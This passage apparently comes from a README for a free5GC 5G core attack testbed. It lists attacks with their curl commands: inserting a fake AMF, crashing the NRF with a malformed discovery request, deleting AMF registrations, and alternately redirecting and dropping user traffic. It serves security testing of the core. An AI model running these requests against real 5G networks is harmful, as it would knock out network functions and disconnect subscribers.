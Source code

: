 ```
      "nfServiceStatus":"REGISTERED",
      "ipEndPoints":[
        {
          "ipv4Address":"127.0.0.18",
          "transport":"TCP",
          "port":8000
        }
      ],
      "apiPrefix":"http://127.0.0.18:8000"
    }
  ],
  "defaultNotificationSubscriptions":[
    {
      "notificationType":"N1_MESSAGES",
      "callbackUri":"http://127.0.0.18:8000/namf-callback/v1/n1-message-notify",
      "n1MessageClass":"5GMM"
    }
  ]
}"

http://127.0.0.10:8000/nnrf-nfm/v1/nf-instances/b01dface-bead-cafe-bade-cabledfabled
```
    
### randomAMFInsert
This attack is the same as "FakeAMFInsert" except the instance ID is a randomly generated UUID.

## DOS Attacks
### CrashNRF
This attack relies on an exploit in free5GC wherein a malformed request to the network repository function (NRF) will cause it to crash. This attack is run using
```
curl "http://127.0.0.10:8000/nnrf-disc/v1/nf-instances?requester-nf-type=\&target-nf-type="
```
where 127.0.0.10 is the IP address of the NRF. As of free5GC v3.1.1, this exploit appears to have been patched, as this HTTP `GET` request will no longer result in the failure of the core. 
   
### FakeAMFDelete
This attack is operated in conjunction with *FakeAMFInsert* with the line
```
curl -s -o /dev/null -w "\n\nHTTP Status Code: %{http_code}\n\n" -X DELETE http://127.0.0.10:8000/nnrf-nfm/v1/nf-instances/$fakeAMF
```
where `fakeAMF` is the hexadecimal session ID of the false AMF inserted into the system. This attack, coupled with *GetAllNFs* to find other AMFs, could be exploited to remove legitimate AMFs from the network, disrupting network functionality.

### automatedDropWithTimer
This attack is similar to the "Automatic Redirect with Timer" attack, but alternates between redirecting user traffic and dropping user traffic, effectively disconnecting the user from the data network (DN).
